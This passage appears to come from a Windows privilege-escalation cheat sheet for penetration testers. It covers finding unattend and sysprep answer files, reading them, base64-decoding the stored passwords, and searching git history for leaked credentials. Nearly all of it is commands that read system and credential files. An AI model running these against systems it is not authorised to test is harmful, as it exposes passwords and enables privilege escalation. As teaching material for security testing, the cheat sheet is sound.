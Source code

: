 ## Answer files (Unattend files)

### Manual Enumeration
```powershell
$ Write-Host `n;foreach ($file in @('C:\Windows\Panther\unattend.xml', 'C:\Windows\Panther\Unattend\unattend.xml', 'C:\Windows\System32\Sysprep\unattend.xml', 'C:\Windows\System32\Sysprep\sysprep.xml', 'C:\Windows\System32\Sysprep\Panther\unattend.xml', 'C:\Windows\sysprep.inf', 'C:\Windows\unattend.xml', 'C:\unattend.xml', 'C:\sysprep.inf')) { if (Test-Path $file) { Write-Host "[+] $file" } }; Write-Host `n
```
### Tool Enumeration
```powershell
$ SharpUp.exe audit UnattendedInstallFiles
```
### Exploitation
```powershell
1-  Read the content of the found answer file:
$ type  C:\Windows\Panther\Unattend\Unattend.xml

2- decode the base64 password field
$ echo "<base64 string>" | base64 -d
```

## Leaked Credentials (GitHub Repository)
```powershell
$ git log
```
![Github-Enumeration](/images/cheatsheets/Windows-LPE/Github-Enumeration.png)
```powershell
$ git diff <commit-id-1> <commit-id-2>
```